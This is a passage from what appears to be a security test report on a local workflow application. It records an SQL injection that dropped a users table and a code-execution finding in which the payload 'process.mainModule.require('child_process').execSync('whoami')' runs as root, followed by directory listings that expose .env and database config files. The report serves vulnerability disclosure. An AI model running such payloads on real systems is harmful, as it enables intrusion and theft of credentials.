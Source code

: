 ```
USERS TABLE MISSING - DROPPED BY INJECTION
```

**Visual Indicators**:
- ❌ SQL injection executed successfully
- ❌ Critical table dropped
- ❌ No input sanitization
- ❌ Direct string interpolation visible

---

## 3. Code Execution - System Command Output

### Screenshot: Workflow Execution Results
**Location**: Workflow Execution Panel
**URL**: `http://localhost:4000/workflows/execute`

```
Workflow Execution Log:
----------------------
Workflow Name: "System Access Test"
Status: ✅ Completed Successfully
Execution Time: 145ms

Script Input:
process.mainModule.require('child_process').execSync('whoami')

Execution Output:
----------------
root

Additional Commands Executed:
-----------------------------
> pwd
/app/workflow/engine

> ls -la
total 156
drwxr-xr-x  12 root root  4096 Dec 29 10:25 .
drwxr-xr-x  15 root root  4096 Dec 29 10:20 ..
-rw-r--r--   1 root root  2048 Dec 29 10:20 .env
-rw-r--r--   1 root root   512 Dec 29 10:20 database.config.js
```

**Visual Indicators**:
- ❌ System commands executed
- ❌ Root access achieved
- ❌ Sensitive files visible (.env)
- ❌ No sandboxing enforced

---
